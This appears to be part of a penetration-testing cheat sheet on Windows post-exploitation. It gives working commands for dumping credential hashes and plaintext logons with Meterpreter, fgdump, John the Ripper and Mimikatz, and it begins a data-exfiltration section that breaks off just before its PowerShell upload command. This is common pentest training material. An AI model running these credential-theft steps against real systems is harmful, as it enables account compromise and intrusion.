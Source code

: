 **With Meterpreter**

With Metasploit we can use the hashdump.

**With fgdump.exe**

We can also use another tool `fgdump.exe`

```
/usr/share/windows/windows-binaries/fgdump/fgdump.exe
```

Transfer it to the target machine and run it. This will create a dump file which contains the hashes. Then with john the ripper we can crack the hashes

```
john --wordlist=/usr/share/john/password.lst /root/Desktop/hashes.txt
```

**With Mimikatz**

Run Mimikatz

```
mimikatz.exe -m
```

Then run

```
privilege::debug
```

Then execute

```
lsadump::sam

sekurlsa::logonpasswords
```

Note : When the user account that is **running Mimikatz does not have administrative privileges and is therefore unable to access the LSASS service,** Mimikatz will throw the following error:

**Error: ERROR kuhl\_m\_privilege\_simple ; RtlAdjustPrivilege (20) c0000061**

If you’re running the debug command on a shell as NT AUTHORITY/SYSTEM, Mimikatz will also throw an error but it won’t prevent you from accessing LSASS with Mimikatz to dump credentials:

**ERROR kuhl\_m\_privilege\_simple ; RtlAdjustPrivilege (20) c0000022**

### Data Exfiltration

Data exfiltration is getting the data out of the system or network that you’ve compromised. Common exfiltration techniques include covert channels (channels that allow the transfer of data against policy) like hiding data in encrypted web traffic to innocuous-appearing or commonly used sites like Google, GitHub, or even YouTube, Facebook, or Instagram, where steganography techniques that hide data in images or video may be used, sending data via email, or by abusing protocols like DNS. **Exfiltration to a Webserver with PowerShell** The below command will send the `master.zip` file to a webserver hosted by the attacker. Make sure to change the parameters to fit your environment.
